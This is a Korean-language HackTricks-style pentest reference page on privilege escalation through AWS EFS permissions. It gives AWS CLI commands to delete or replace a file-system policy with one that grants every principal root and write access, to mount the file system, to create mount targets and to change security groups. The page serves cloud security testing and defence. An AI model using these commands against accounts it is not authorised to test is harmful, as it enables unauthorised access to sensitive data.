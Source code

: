 # AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

EFS에 대한 **더 많은 정보**는 다음에서 확인하세요:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

EFS를 마운트하려면 EFS가 노출된 서브네트워크에 있어야 하며 이에 대한 접근 권한(보안 그룹)이 필요합니다. 이러한 조건이 충족되면 기본적으로 항상 마운트할 수 있지만, IAM 정책에 의해 보호되는 경우 여기에서 언급된 추가 권한이 필요합니다.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

이 권한 중 하나로 공격자는 **파일 시스템 정책을 변경**하여 **접근 권한을 부여**하거나 **삭제**하여 **기본 접근**이 허용되도록 할 수 있습니다.

정책을 삭제하려면:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
변경하려면:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

이 권한을 통해 공격자는 **EFS를 마운트**할 수 있습니다. EFS를 마운트할 수 있는 모든 사용자에게 기본적으로 쓰기 권한이 부여되지 않는 경우, 그는 **읽기 권한**만 가집니다.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
추가 권한 `elasticfilesystem:ClientRootAccess` 및 `elasticfilesystem:ClientWrite`는 파일 시스템이 마운트된 후 **쓰기** 및 **루트**로 해당 파일 시스템에 **접근**하는 데 사용할 수 있습니다.

**잠재적 영향:** 파일 시스템에서 민감한 정보를 찾아 간접적인 권한 상승.

### `elasticfilesystem:CreateMountTarget`

공격자가 EFS의 **마운트 대상**이 없는 **서브네트워크**에 있는 경우, 이 권한으로 **자신의 서브넷에 하나를 생성**할 수 있습니다.
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**잠재적 영향:** 파일 시스템에서 민감한 정보를 찾아 간접적인 권한 상승.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

공격자가 EFS가 자신의 서브네트워크에 마운트 대상을 가지고 있지만 **트래픽을 허용하는 보안 그룹이 없는** 상황을 발견하면, 그는 **선택한 보안 그룹을 수정하여 이를 변경할 수 있습니다**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**잠재적 영향:** 파일 시스템에서 민감한 정보를 찾아 간접적인 권한 상승. 

{{#include ../../../banners/hacktricks-training.md}}

